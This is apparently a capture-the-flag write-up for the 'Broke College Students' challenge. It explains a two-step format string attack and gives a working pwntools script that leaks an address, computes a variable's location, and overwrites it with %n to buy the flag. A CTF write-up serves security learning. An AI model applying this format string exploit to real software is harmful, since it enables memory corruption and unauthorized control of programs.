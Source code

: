 
# Broke College Students

Basic idea:
Format string attack in two steps.
Step 1: leak an address, find the same offset with `objdump`, add offset of `MONEY` -- result is real address of `MONEY` in memory, which we want to override.
Step 2: Use format string to write 999999 characters followed by `%n`, allowing us to place that value in an address we specify afterwards -- so we specify the `MONEY` address to get that amount of money.
This allows us to buy the flag.

```python
from pwn import *

p = remote("143.198.184.186", 5001)
#p = process("./brokecollegestudents")

def send_string(choice):
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recv()
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.recvuntil(b": ")
    p.sendline(b"1")
    p.recvuntil(b": ")
    p.sendline(choice)
    p.recvlines(2)
    return p.recvline().split(b"What")[0]


leaked_addr = int(send_string(b"%8$p")[2:], 16)
log.success(f"ADDRESS LEAK: {hex(leaked_addr)}")

addr_offset = 0x1160
base_addr = leaked_addr - addr_offset
money_offset = 0x401c
money_addr = p64(base_addr + money_offset)

send_string(f"%99999999c%8$n__".encode() + money_addr)

p.interactive()
```
